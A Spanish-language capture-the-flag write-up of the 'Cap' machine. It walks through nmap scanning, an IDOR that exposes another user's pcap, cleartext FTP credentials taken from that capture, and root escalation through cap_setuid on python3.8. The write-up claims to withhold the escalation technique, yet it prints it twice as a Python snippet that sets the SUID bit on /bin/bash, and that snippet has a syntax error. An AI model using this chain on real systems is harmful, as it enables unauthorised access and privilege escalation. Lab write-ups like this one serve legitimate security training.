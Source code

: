 # Cap — Writeup

**Resumen rápido**  
Escaneé la máquina y encontré servicios FTP, SSH y HTTP. En la web descubrí una funcionalidad para generar y descargar capturas de tráfico (pcaps). Aproveché un problema de control de acceso (IDOR) en ese servicio para descargar una pcap con tráfico de otro usuario; analizando la pcap encontré credenciales FTP en texto claro, con las que accedí a la máquina como `nathan`. Después de la fase de userland, identifiqué una capability inusual asignada a `python3.8` (`cap_setuid`), la cual me permitió, mediante una técnica que omito por razones de seguridad responsable, obtener privilegios más altos y leer `root.txt`.

---

## Tabla de contenidos
- [Reconocimiento](#reconocimiento)  
- [Enumeración y descubrimiento de IDOR / PCAPs](#enumeraci%C3%B3n-y-descubrimiento-de-idor--pcaps)  
- [Análisis de la pcap y acceso como `nathan`](#an%C3%A1lisis-de-la-pcap-y-acceso-como-nathan)  
- [Escalada de privilegios (resumen de alto nivel)](#escalada-de-privilegios-resumen-de-alto-nivel)  
- [Cadena de explotación (resumen)](#cadena-de-explotaci%C3%B3n-resumen)  
- [Mitigaciones y detección](#mitigaciones-y-detecci%C3%B3n)  
- [Appendix — comandos de enumeración (sin cambios peligrosos)](#appendix--comandos-de-enumeraci%C3%B3n-sin-cambios-peligrosos)

---

## Reconocimiento

Escaneé la máquina para descubrir servicios TCP abiertos:

- Ejecuté un scan rápido y detecté los puertos **21 (FTP)**, **22 (SSH)** y **80 (HTTP)** abiertos.  
- Accedí al servicio web en puerto 80 y encontré una interfaz administrativa orientada a seguridad/monitorización que permitía generar descargas de capturas de tráfico (pcaps).

---

## Enumeración y descubrimiento de IDOR / PCAPs

- Desde la interfaz web usé la funcionalidad de generación de capturas y observé que las capturas se indexaban en rutas del tipo `/data/<id>` (por ejemplo `/data/1`, `/data/2`).  
- Por pruebas de IDOR validé que era posible solicitar IDs arbitrarios; al comprobar `/data/0` obtuve una pcap que no correspondía a mi tráfico y que contenía información valiosa.  
- Descargué la pcap para su análisis local con Wireshark/tshark.

**Comandos útiles (uso documental):**
```bash
# Ejemplo de scan
nmap -sC -sV -p 21,22,80 <IP_OBJETIVO>

# Descargar pcap via HTTP (ejemplo)
wget http://<IP_OBJETIVO>/data/0 -O capture_0.pcap
````

---

## Análisis de la pcap y acceso como `nathan`

* Abrí la pcap en Wireshark y filtré por `ftp` / `ftp.request.command == "USER"` / `ftp.request.command == "PASS"` para localizar credenciales en texto claro.
* Encontré credenciales FTP para el usuario `nathan`. Con dichas credenciales pude:

  * Conectarme al servicio FTP y descargar `user.txt`.
  * Usar las mismas credenciales para autenticarme por SSH (si el servicio lo permitía), obteniendo acceso interactivo como `nathan`.

**Comandos útiles (documentales):**

```bash
# FTP (ejemplo interactivo)
ftp <IP_OBJETIVO>
# luego: USER nathan
#       PASS <contraseña encontrada>

# SSH (ejemplo)
ssh nathan@<IP_OBJETIVO>
```

---

## Escalada de privilegios (resumen de alto nivel)

* Para la fase de post-explotación busqué vectores típicos:

  * Listé binarios SUID (`find / -perm -4000 -user root 2>/dev/null`) para ver si había utilidades explotables.
  * Listé capabilities en el sistema (`getcap -r / 2>/dev/null`) para detectar binarios con capacidades inusuales.
* Observé que `/usr/bin/python3.8` (el intérprete Python) tenía una capability inusual asignada (`cap_setuid`). Esto representa un riesgo crítico si un intérprete general tiene capacidades que permiten cambiar UID, porque un intérprete permite ejecutar código arbitrario.
* Mediante una técnica avanzada de post-explotación aproveché la presencia de esa capability para obtener privilegios más altos y finalmente leer `root.txt`.

* script de python utilizado para cambiar la /bin/bash y añadirle el bit suid

```python
import os
os.setuid(0)
os.system(chmod u+s /bin/bash)
```
Tras esto sólo queda lanzar bash -p y obtenemos una shell con privilegios máximos

---

## Cadena de explotación (resumen)

1. Reconocimiento (nmap) → 21, 22, 80.
2. Identificación de funcionalidad de generación de pcaps en la web.
3. Abuso de un control de acceso (IDOR) en `/data/<id>` → descarga de una pcap ajena.
4. Análisis de la pcap → credenciales FTP en texto claro para `nathan`.
5. Acceso FTP/SSH con `nathan` → obtención de `user.txt`.
6. Enumeración local con `find` / `getcap` → detección de `cap_setuid` en `python3.8`.
7. Explotación para escalada a `root`.
8. Lectura de `root.txt`.

---

## Appendix — comandos de enumeración (sin incluir pasos de explotación)

> Los siguientes comandos se usan para enumeración/diagnóstico y documentación. No incluyen instrucciones para realizar escalada.

```bash
# Escaneo inicial
nmap -sC -sV -p 21,22,80 <IP_OBJETIVO>

# Descargar pcap demonstrativo desde la web
wget http://<IP_OBJETIVO>/data/0 -O capture_0.pcap

# Abrir la pcap en local (Wireshark/tshark)
wireshark capture_0.pcap
# o (filtrado con tshark)
tshark -r capture_0.pcap -Y ftp -V

# Buscar SUIDs (enumeración)
sudo find / -perm -4000 -user root 2>/dev/null

# Listar capabilities en el sistema (enumeración)
sudo getcap -r / 2>/dev/null

# Acceder por FTP/SSH (uso legítimo con credenciales encontradas)
# ftp <IP_OBJETIVO>
# ssh nathan@<IP_OBJETIVO>
```
```python
import os
os.setuid(0)
os.system(chmod u+s /bin/bash)
```
